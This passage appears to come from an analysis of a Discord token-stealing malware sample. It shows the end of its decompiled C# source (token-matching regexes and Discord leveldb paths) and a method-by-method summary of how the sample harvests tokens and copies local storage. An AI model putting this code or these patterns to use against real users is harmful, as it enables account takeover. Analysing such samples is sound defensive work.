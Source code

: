 ```csharp
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex);
			}
			return list.ToArray();
		}

		// Token: 0x04000001 RID: 1
		private static Regex[] TokenRegexs = new Regex[]
		{
			new Regex("dQw4w9WgXcQ:[^.*\\['(.*)'\\].*$][^\"]*", RegexOptions.Compiled),
			new Regex("[\\w-]{24,26}\\.[\\w-]{6}\\.[\\w-]{25,110}", RegexOptions.Compiled),
			new Regex("[a-zA-Z0-9]{24}\\.[a-zA-Z0-9]{6}\\.[a-zA-Z0-9_\\-]{27}|mfa\\.[a-zA-Z0-9_\\-]{84}")
		};

		// Token: 0x04000002 RID: 2
		private static string[] DiscordDirectories = new string[] { "Discord\\Local Storage\\leveldb", "Discord PTB\\Local Storage\\leveldb", "Discord Canary\\leveldb" };
	}
}
```

### **GrabberDiscordToken**

- Deletes existing `Variables.workdir\Grabbers\Discord` directory if it exists.
- Iterates through three token regex patterns (`TokenRegexs`) using `GetTokens`.
- If any tokens are found:
    - Creates `Variables.workdir\Grabbers\Discord`.
    - Writes found tokens into `Tokens.txt`.
    - Calls `CopyLevelDb` to copy Discord’s leveldb storage.
- Logs any caught exceptions directly to console.

---

### **CopyLevelDb**

- Loops through `DiscordDirectories`.
- For each existing directory:
    - Copies the `leveldb` folder to `Variables.workdir\Grabbers\Discord\[AppName]`.
- Ignores any errors silently (permissions, missing folders).

---

### **GetTokens**

- Loops through `DiscordDirectories`.
- For each directory:
    - Copies to a temporary working directory.
    - Scans `.log` and `.ldb` files using the provided regex pattern.
    - Extracts matching tokens and adds them to a list.
    - Deletes the temporary directory after scanning.
- Catches and logs any errors to console.
- Returns an array of found tokens (or empty array).

---